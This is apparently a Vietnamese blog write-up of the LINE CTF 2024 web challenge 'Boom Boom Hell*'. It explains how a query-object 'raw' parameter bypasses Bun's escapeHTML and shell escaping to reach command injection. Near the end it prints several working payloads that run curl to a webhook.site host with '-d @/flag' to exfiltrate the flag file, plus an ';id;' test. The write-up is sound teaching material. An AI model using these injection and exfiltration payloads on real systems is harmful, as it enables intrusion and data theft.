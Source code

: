 ```yaml
---
title: "LINE CTF 2024 - Boom Boom Hell* (hard)"
excerpt: "March 23, 2024, 09:00 AM ~ March 24, 2024, 09:00 AM (UTC+9) 💻"
header:
show_date: true
header:
  teaser: /assets/images/images-ctf/2024-03-20-LineCTF-2024/teaser.png
  teaser_home_page: true
  icon: /assets/images/images-icon/ctf.png
  overlay_image: /assets/images/images-ctf/2024-03-20-LineCTF-2024/background.png
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Boom Boom Hell* - 176 point/28 solved
## Description
```
Shall we dance? 🐻🐥🐰🎶
URL: http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp
```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/linectf2024/boomboomhell_898a5dc8c4b2ea241905c612d355ce58.zip)

## Solution

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image1.png)

Source code index.js không quá dài, chương trình chứa một api `/chall` với param `url`. 

Ở dòng code thứ 23 và 28 rất dễ thấycó lỗi command injection, mình sẽ thực hiện khai thác theo flow như sau:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image2.png)

Tại dòng 28. ta có thể thấy code thực hiện ghi một số dữ liệu dạng datetime và url truyền từ input vào file `.log` . Làm mình nhớ tới một dạng ghi payload vào file rồi gọi tới file với bash để thực thi. Nhưng không phải. 

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image3.png)

Thực tế, tham số `url` được xử lý trước bằng hàm `escapeHTML()` của `bun`. Ban đầu mình nghĩ khó khăn ở đây là cần phải vượt qua hàm này sao cho độ dài chuỗi gốc và sau khi escape không khác nhau bao gồm ký tự đặc biệt để thực thi mã..

```js
if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
    return new Response("sorry, but the given URL is too complex for me");
}
```

`Bun.escapeHTML()` utility được sử dụng để escape các ký tự HTML trong các chuỗi. Các kiểu không phải là chuỗi sẽ được chuyển thành chuỗi trước khi thực hiện escape. Việc thay thế được thực hiện gồm: 
```js
" becomes "&quot;"
& becomes "&amp;"
' becomes "&#x27;"
< becomes "&lt;"
> becomes "&gt;"
```

ex:
```js
Bun.escapeHTML("<script>alert('Hello World!')</script>");
// &lt;script&gt;alert(&#x27;Hello World!&#x27;)&lt;&#x2F;script&gt;
```
Tham khảo [escape-html](https://bun.sh/guides/util/escape-html) hoặc đây [test/js/bun/util/escapeHTML.test.js#L23](https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23)

Mình nghĩ việc thêm escapeHTML ở đây như một cú lừa vậy. Bởi vì mình nghĩ khá dễ để bypass được filter này mà không cần tới các ký tự đặc biệt thuộc blacklist của `escapeHTML()`.

Trước tiên, xét tới phần sink. Phân tích cú pháp bun shell . Bun shell là một ngôn ngữ nhúng thử nghiệm , trình thông dịch mới tỏng Bun, cho phép chạy các tập lệnh shell đa nền tảng trong JS và Typescript. Nói tới logic escape của Bun shell dưới dạng một function.

```js
import { $ } from "bun";

console.log($.escape('$(foo) `bar` "baz"'));
// => \$(foo) \`bar\` \"baz\"
```

Nếu không muốn chuỗi output bị escape, chỉ cần bọc nó trong một object `{ raw: 'str' }`
```js
import { $ } from "bun";

await $`echo ${{ raw: '$(foo) `bar` "baz"' }}`;
// => bun: command not found: foo
// => bun: command not found: bar
// => baz
```

Tham khảo [https://bun.sh/docs/runtime/shell#escape-escape-strings](https://bun.sh/docs/runtime/shell#escape-escape-strings)

Từ ví dụ trên mình có được 2 ý tưởng để chèn payload: `$(cat /flag)` hoặc `{% raw %}`cat /flag`{% endraw %}`.

Lúc này, việc thêm một object từ `param.url` thì data này sau khi được parse bởi `${}` sẽ trả về định dạng raw ban đầu. Kết hợp với lệnh `node/curl` trước đó để tạo thành một command injection payload. Với dòng code `qs.parse(url.search, {ignoreQueryPrefix: true});` khi truyền `url[raw]=$(payload)` sẽ trở thành một object 

```js
{
    "raw": $payload
}
```

Payload được truyền tới sink . Lúc này `$(param.url)` sẽ không được escape và sẽ được thực thi., mình nghĩ có thể thêm cách thứ 3 chỉ cần thêm phân tách lệnh để bypass thôi như `;id;`, `|id|`

Nhưng với payload như này thì mình nghĩ chỉ khai thác cmi được ở dòng code thứ 28 thôi. Vì kết quả trả về khi truyền object của cú pháp `${lyURL}` sẽ gọi tới `toString` của nó chính là `https://www.lycorp.co.jp/[object%20Object]` không bao gồm payload nên không thực thi được. 
```sh
curl -sL https://www.lycorp.co.jp/[object%20Object]
```

Object `URL`: 
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image4.png)

`toString` của `URL` sẽ trả về `href` xem trong /blob/mastere/url.d.ts#L503
```text
* Getting the value of the `href` property is equivalent to calling {@link toString}.
```

Quay trở lại với payload đang nói trước đó 

Test với payload: `/chall?url[raw]=;id;`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image5.png)

Test local xong. Tiếp theo chỉ việc gọi command `curl` tới webhook để lấy flag. 

Như mình đã giải thích ở trên, cuối cùng có 3 cách để làm bài này:
```bash
/chall?url[raw]=`curl+https://webhook.site/xxxxx+-d+@/flag`
```

hoặc 

```bash
/chall?url[raw]=$(curl+https://webhook.site/xxxx+-d+@/flag)
```

hoặc 
```bash
/chall?url[raw]=;curl+https://webhook.site/xxxxx+-d+@/flag;
```

## Unintended
Có một cách khác để khai thác được dòng dòng 23. Mà không phải truyền vào một object:

```js
/chall?url=https://www.lycorp.co.jp/?`1`file:///flag
```

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image6.png)


Ai đó đã report bug về `escapeHTML()` ngay sau khi CTF này kết thúc. [https://github.com/oven-sh/bun/pull/9619](https://github.com/oven-sh/bun/pull/9619)
